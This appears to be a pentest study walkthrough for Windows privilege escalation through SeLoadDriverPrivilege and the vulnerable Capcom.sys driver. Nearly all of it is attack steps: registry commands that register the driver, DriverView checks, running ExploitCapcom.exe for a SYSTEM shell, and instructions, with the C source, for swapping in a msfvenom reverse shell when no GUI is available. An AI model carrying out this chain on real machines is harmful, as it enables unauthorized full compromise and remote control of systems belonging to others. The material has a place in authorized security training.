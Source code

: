 #### Compile Capcom.sys with cl.exe
```cmd.exe
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

#### Add Reference to Driver
Download the `Capcom.sys` driver from Kali, and save it to `C:\Temp`*
```cmd.exe
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```
Add reference to a driver (1)

```cmd.exe
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
Add reference to a driver (2)

#### Verify Driver is not Loaded
```PowerShell
.\DriverView.exe /stext drivers.txt
```

```PowerShell
cat drivers.txt | Select-String -pattern Capcom
```

#### Verify Privilege is Enabled
```cmd.exe
EnableSeLoadDriverPrivilege.exe
```
Ensure `EnableSeLoadDriverPrivilege` is enabled

#### Verify Capcom Driver is Listed
```PowerShell
.\DriverView.exe /stext drivers.txt
```

```PowerShell
cat drivers.txt | Select-String -pattern Capcom
```

#### Use ExploitCapcom Tool to Escalate Privileges
```PowerShell
.\ExploitCapcom.exe
```

This launches a shell with SYSTEM privileges.

#### Alternate Exploitation - No GUI
If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `C:\\Windows\\system32\\cmd.exe` with, say, a reverse shell binary created with msfvenom, for example: `c:\ProgramData\revshell.exe`.

```C
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
```